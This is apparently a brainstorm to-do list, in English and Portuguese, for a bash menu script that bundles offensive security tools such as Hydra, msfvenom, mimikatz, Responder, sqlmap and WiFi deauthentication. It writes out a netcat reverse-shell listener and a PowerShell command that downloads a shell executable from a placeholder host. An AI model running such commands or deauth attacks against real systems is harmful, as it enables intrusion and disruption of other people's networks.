 # Future Features

**This is the taks schedule, if you need something that is not on that list you have three options:**\
**1 -** You can request the resource for me, if it is a good idea I will implement it, but at the end of the task list.\
**2 -** If you need urgency, you can write the code and send it to me.\
**3 -** Pay me to implement the feature.\

**This list is constantly evolving, so duplicate items or grammatical errors are common here. Imagine this page as a great brainstorm.**\
**If you have any ideas, you can branch this page and commit to me. If the idea is good, I will implement**\

**1 -** The change mac menu is not working? Check this\
**2 -** Change and test torghost option to torghostNG\
**3 -** Implement Jhon the reaper here, there is a logic on my notion page\
**4 -** Change al the things that i need to chose an wifi card to the already developed selectedwificard\
**5 -** Study and implment nmap(Don't forget to make some funcion using -sS --script vuln) and put a option to chose the type of verbosity\
**6 -** Study and implment some functions using psexec.py\
**7 -** Study and implement mssqlclient.py.\
**8 -** There are other great tools in inpackt? like psexec and mssqlclient, check and implement.\
**9 -** Implement a menu to creat an temporary server using python, like python3 -m http.server 80, and the path to the server\
**10 -** Revist the script, read top from boton and see what can be done better\
**11 -** Change all the variables in the script to lowercase, its a best pratice\
**12 -** Check if there is a way to implment automatizations in metasploit here, to automate some tasks\
**13 -** Study and implement GoBuster, but, what i do about dirbuster?\
**14 -** Implement a menu for airodump and aircrack, to show conections, put in monitor mode and other functions\
**18 -** Implement Hydra, there is a logic in my Notion page\
**19 -** If i choose to mantin dirsearch, maybe i will need to put as root because the logs are not saving correctly\
**20 -** Revist the script, read top from boton and see what can be done better\
**21 -** If i choose to do not replace dirsearch, check if there is other options that area not implemented, like recursive use and cvs use\
**22 -** Replace where is "test" for [[comand]]. Test is a obsolete function






 22 - estuda o crunch e implementa no script é um otimo programa para gerar listas de senhas para quando precisar descobrir uma senha mas já tem um padrão em mente
 24 - Sera que este é o mlehor jeit ode fazer menu possivel? Vis sobre a possibilidade de usar o comand select do bash, da uma estudada nisso, pode ser uma boa tem mais aqui https://wiki.bash-hackers.org/syntax/ccmd/user_select
 27 - Eu não sei se é possivle, mas se for que tal dar uma estudada no pyshark? e implentar aqui em um script de bash, é possivel ou so quando este script mudar pra python?
 28 - Implement patetor? it is a best tool? then Hydra? Search more.
 29 - Implement study mor about reponder.py, and add to the script a method to crack a password using jhon the reaper Faz um menu para o jhon the reaper john SMB-NTLMv2-SSP-192.168.100.101.txt –wordlist=/usr/share/wordlists/rockyou.txt porque é relacionado ao responder.py
 30 - Tem algum jetio de colocar romandos pra rodar no metasploit por aqui? seria sensacional, ai conforme eu for aprendendo eu vou adiciondo, tambem tem a questão que tira pra aprender bem e se possivel até fazer um curso de metasploit é uma ideia exelente, planeja melhor
 30.1 - Revist the script, read the script from the top to the begining and see what cam be done better
 31 - Create a function to check if a program is instaling before runnning and if not instaled then ask to install, and apply to all my tools in this script
 32 - Study and implement hashcat
 32 - Create a Function who: 1 - you imput an wifi nam 2 -  the coputer clone that mac adress from the AP to avoid detection, 3 - Show options to crack that wifi, like: Show a fake iput from password, and automated tools using weakness
34 - Replace all echos for printf, its better
35 - See how i avoid to use eval, its too bat for security
36 - Study and implement a funciontion using curl, there so much good about, like set and get cookieas, or send post, is very versatile
38 - Study and implement an script using WinPEAS.exe, maybe an bat? to automatize? and also WinPEAS.py to check for vulns in linux
39 - Study Msfvnom and implement, it is an excelent payload generator[:]
40 - Study and implent rlwrap nc -lnvp 4444 its realy good to reverse shells and study about the rlwarp ok? to understend perfectly. Maybe using pwncat?
40.1 - Revist the script, read the script from the top to the begining and see what cam be done better
41 - Create a menu with util stuff, like "powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')" this is for download archives using powrshell
42 - Put in dirsearch an option to save the output, its awsome to CTFs  and reports
43 - study the best directory wordlist, to use in dirbuster or afuzz, or another tool
44 - Study and implement wpscan, its a good tool to break into wordpress sites
45 - Cretate a menu who check if two ips are in them same network. This same menu can, calculate things like, create networks for ips, like: i need 2 networks with a minimum 200ips, or i need an netsplit a network in 3 other networks, things like this. And print a tamble explaining the result showing the binaries in colours. There some creat linux tools for this maybe only implement is suficient
46 - Study and implement rustscan, its a realy good tool. There is a github repository
47 - Sudy and inplement inplement  One-Lin3r its a realy good tool to acelerate the process of geting reverse shells, and other scripts
48 - Migrate the Script to Python, sarch for a method to run bash code inside python an migrate gradually if possible, if not, than create an second script and start the developmenti
49 - Create a Function who update the script with the last features implemented in the github version
50 - Revist the script, read the script from the top to the begining and see what cam be done better
53 - If don't exist yet, make an script to automate deauth all dispositives in an network, maybe in more than one if possible
54 - Organize the menu in a better way, is too confuse
55 - Implement a flag to disable the notification "command will running in 5 seconds, or even change the time"
56 - Study massscan, its good for mass scaning ports, or rustscan? What is better?
57 - Add an option to windows tools, like mimikatz and think if only show then or run then, i think run its better, butt tike about
58 - Study and implement msfvenom its a great tool to make palyloads
59 - Study and implement nikto
60 - Revist the script, read the script from the top to the begining and see what cam be done better
62 - Study and implement termshark, its good to see pcaps in terminal
63 - Study and implement FFUF, its really fast because its in go
64 - Implement option so search ".bak" in in websearches, it really good to see some codes
65 - Study and implement Uchecker, its a good tool to check for not uptodate tools on servers
66 - Study and implement Snort, its a preaty good to to check for viruses in network, its good for networks and home users
77 - Remove cpf generator, there is better tools online
78 -  Study and implment sublist3r, its a really great scanner for subdomains ussing ossint
79 - Study and implement pwncat, its a really great reverse shell hander, is the one by calleb stuart, not the other
80 - Revist the script, read the script from the top to the begining and see what cam be done better
81 - Study and implment nikton its a good webscaner
82 - Study and implment social engenner tookit, its really god to work with social engineer
83 - Change DirBuster by Gobuster? Search more about... Gobuster has more users, maybe its better? actualy is more faster than dirbuster, so thats is what matter
84 - Implement wfuzz its preaty great
85 - Study and Implement Sqlmap
86 - Implement te 'sectlist' program from kali, its a copy for the repository on github. Maybe a menu here or an option to use in the aplications who neded, also study what is the best wordlists for who?
87 - Study and implent enum4linux, its preaty good to use to enumerate samba shares
88 - Create an option to disable showing comands after runnning. Maybe a flag before ruing? like BRHackTools -noverbose
89 - Study and implement sherlock, its a great tool for OSINT
90 - Revist the script, read the script from the top to the begining and see what cam be done better
91 - Study and implement airgedon its good to do deauth atacks in softwarey
92 - What i can do to make this script more beautiful? Maybe some colors or ident?
93 - Maybe Implement RustScan? Its so fast
